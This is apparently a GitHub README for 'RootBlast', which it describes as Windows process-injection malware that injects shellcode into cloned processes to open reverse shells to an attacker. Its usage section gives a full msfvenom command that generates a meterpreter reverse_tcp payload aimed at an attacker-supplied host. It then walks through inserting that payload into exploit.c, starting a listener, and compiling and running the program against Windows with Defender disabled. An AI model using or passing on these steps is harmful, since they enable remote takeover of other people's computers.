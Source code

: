 # RootBlast 🪴 💥
![image](https://github.com/Spirizeon/rootblast/assets/123345456/d7600095-f6b4-49b2-bb8f-28c2ce3c07ba)


Process injection malware that clones windows processes, injects them with shellcode and executes them to attempt numerous reverse shells on the attacker. (Made with 🤎 for Windows users)

## Usage
+ Clone the repo
```
git clone https://github.com/spirizeon/rootblast
```
+ Generate shellcode through msfvenom 
```
msfvenom --platform windows --arch x64 -p windows/x64/meterpreter/reverse_tcp LHOST=<IP adress> LPORT=443 -f c --var-name=shellcode
```
+ Replace shellcode with that in `exploit.c`

+ Start the listener on the Attacker machine (Run msfconsole as sudo)

![image](https://github.com/Spirizeon/maldev-training/assets/123345456/a78fc663-07fa-48c1-a65e-e68db3c4d29c)

+ Compile the code (MSVC compiler recommended) and execute

![image](https://github.com/Spirizeon/maldev-training/assets/123345456/9a44d8ad-cf9e-435e-af46-a74f270057a9)

## Tech Stack

**Attacker** Kali Linux/ParrotOS VMs, metasploit-framework

**Target:** Windows 7/10/11 (with Windows defender turned off)

